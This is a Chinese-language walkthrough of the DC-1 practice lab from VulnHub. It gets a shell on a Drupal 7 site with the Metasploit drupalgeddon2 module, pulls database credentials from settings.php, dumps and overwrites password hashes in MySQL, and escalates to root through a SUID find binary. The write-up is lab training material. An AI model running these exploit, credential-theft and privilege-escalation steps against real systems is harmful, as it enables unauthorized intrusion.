DC-1
一、靶机描述
DC-1是一个专门构建的易受攻击实验室，旨在获取渗透测试领域的经验。
它是为初学者设计的，但它有多容易取决于你的技能和知识，以及你的学习能力。
要成功完成这一挑战，您需要具备Linux技能、熟悉Linux命令行并具有基本渗透测试工具的经验,例如可以在Kali Linux或Parrot Security OS上找到的工具。
有多种方法可以获得Root权限，但是，我已经包括了一些包含初学者线索的flags。
总共有五个flag，但最终目标是在根目录中查找和读取flag。您甚至不需要成为root用户就可以执行此操作，但是，您需要root权限。
根据您的技能水平，您可以跳过查找这些flag中的大部分，直接查找根目录。
初学者可能会遇到以前从未遇到过的挑战，但谷歌搜索应该是获得完成此挑战所需信息的全部。
二、环境搭建
DC-1靶机地址：https://www.vulnhub.com/entry/dc-1,292/
下载解压后用VMware打开，与 kali 一同配置网络适配器为NAT模式
netdiscover -r 192.168.163.128/24

kali ： 192.168.163.128
DC-1 : 192.168.163.130
三、信息收集
nmap -A 192.168.163.130

可见，
| 开放端口 | 服务 | 版本 |
|---|---|---|
| 22 | ssh | OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0) |
| 80 | Apache httpd | Apache httpd 2.2.22 ((Debian)) |
| 111 | rpcbind | rpcbind 2-4 (RPC #100000) |
其中，80端口的web服务一看就很有搞头
80/tcp open http Apache httpd 2.2.22 ((Debian))
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Drupal Site | Drupal Site
|_http-server-header: Apache/2.2.22 (Debian)
访问80端口，抓包，可见 cms为 Drupal 7

四、漏洞发现
使用 Searchsploit 搜索 有关 Drupal 7的漏洞
searchsploit Drupal 7.

尝试第一个exp
searchsploit -p 34992.py
python2 /usr/share/exploitdb/exploits/php/webapps/34992.py -t http://192.168.163.130/ -u admin -p admin

但是却登录失败，exp有问题？（很疑惑。。。），但是发现有exp集成在了 Metasploit
使用 Metasploit搜索关于 Drupal的漏洞
msfconsole
search Drupal

使用最新且Rank高的exp —— (1 exploit/unix/webapp/drupal_drupalgeddon2 2018-03-28)
use 1
options
set rhost 192.168.163.130
set rport 80
run
shell
拿到shell

五、漏洞利用
python shell
- 获取一个交互式的shell
python -c ‘import pty;pty.spawn("/bin/bash")’
flag1
在当前目录发现flag1.txt，查看
python -c 'import pty;pty.spawn("/bin/bash")'
ls
cat flag1.txt

根据提示，去配置文件中找
百度得 Drupal CMS 配置文件路径 ： /var/www/sites/default/settings.php
flag2
cat sites/default/settings.php
找到flag2，并得到mysql用户与密码
flag2：
* Brute force and dictionary attacks aren't the only ways to gain access (and you WILL need access).
* What can you do with these credentials?
database' => 'drupaldb',
'username' => 'dbuser',
'password' => R0ck3t
'host' => 'localhost',
'port' => '',
'driver' => 'mysql',

flag3
登录mysql数据库
mysql -u dbuser -pR0ck3t
show databases;
use drupaldb;
show tables;
select uid,name,pass from users;

获得admin用户的密码，但是被加密。。。。
额，admin用户？难道已有admin用户，而使exp添加用户名为admin的管理员用户失败，再次尝试使用之前所用exp

果然,root:root登录成功,点击网页左上角 Dashboard， 发现flag3，点击，找到flag3

提示：特殊的权限会帮助我们找到 passwd的文件，但是我们需要-exec，它能帮我们找到藏在shadow里的内容。
其中 PERMS、FIND 是大写，可能也是一种提示
早期的 UNIX 密码放在 /etc/passwd 文件中，由于该文件允许所有用户读取，易导致用户密码泄露，因此从 /etc/passwd 文件中分离出来，并单独放到了此文件中。/etc/shadow 文件只有 root 用户拥有读权限，保证了用户密码的安全性。
另一种方法：修改admin用户的密码
通过分析，判断用户密码密文的产生脚本是靶机中的/scripts/password-hash.sh
php scripts/password-hash.sh admin
加密后的密文 为 $S$DsruniS3Tdt3hsu4HjLplzMTFbyQZPjvp4Xzl3vhQwxJqNe2m.rv

再次登录数据库，修改admin密码
update drupaldb.users set pass="<hash 值>" where name='admin';
update drupaldb.users set pass="$S$DsruniS3Tdt3hsu4HjLplzMTFbyQZPjvp4Xzl3vhQwxJqNe2m.rv" where name='admin';
admin:admin 登录成功。
flag4
寻找passwd文件，每一个都cat查看一下
find / -name passwd

当查看/etc/passwd文件时
cat /etc/passwd
发现flag4字段

cd /home/flag4
ls
cat flag4.txt
找到 flag4

提示：flag在root目录下
thefinalflag
根据提示，得提权，尝试suid提权，使用命令查找拥有suid权限文件（以下命令任意一个都可）
find / -user root -perm -4000 -exec ls -ldb {} \;
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null

我们利用find命令提权
find . -exec '/bin/sh' \;

提权成功，找到root目录下的flag。
